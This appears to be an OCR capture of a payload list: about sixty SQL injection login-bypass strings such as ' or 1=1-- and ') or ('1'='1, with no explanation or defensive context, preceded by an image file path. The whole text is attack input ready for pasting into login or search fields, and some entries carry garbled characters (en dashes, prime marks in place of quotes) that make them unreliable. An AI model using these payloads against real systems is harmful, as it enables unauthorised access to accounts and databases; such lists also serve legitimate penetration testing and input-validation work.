     " or 0=0 --
    " or 0=0 #
    " or 0=0 –
    %' or '0'='0
     or 1=1
     or 1=1--
     or 1=1/*
     or 1=1#
     or 1=1–
    ' or 1=1--
    ' or '1'='1
    ' or '1'='1'--
    ' or '1'='1'/*
    ' or '1'='1'#
    ' or '1′='1
    ' or 1=1
    ' or 1=1 --
    ' or 1=1 –
    ' or 1=1--
    ' or 1=1;#
    ' or 1=1/*
    ' or 1=1#
    ' or 1=1–
    ') or '1'='1
    ') or '1'='1--
    ') or '1'='1'--
    ') or '1'='1'/*
    ') or '1'='1'#
    ') or ('1'='1
    ') or ('1'='1--
    ') or ('1'='1'--
    ') or ('1'='1'/*
    ') or ('1'='1'#
    'or'1=1
    'or'1=1′
    " or "1"="1
    " or "1"="1"--
    " or "1"="1"/*
    " or "1"="1"#
    " or 1=1
    " or 1=1 --
    " or 1=1 –
    " or 1=1--
    " or 1=1/*
    " or 1=1#
    " or 1=1–
    ") or "1"="1
    ") or "1"="1"--
    ") or "1"="1"/*
    ") or "1"="1"#
    ") or ("1"="1
    ") or ("1"="1"--
    ") or ("1"="1"/*
    ") or ("1"="1"#
    ) or '1′='1–
    ) or ('1′='1–
    ' or 1=1 LIMIT 1;#
    'or 1=1 or ''='
    "or 1=1 or ""="
    ' or 'a'='a
    ' or a=a--
    ' or a=a–
    ') or ('a'='a
    " or "a"="a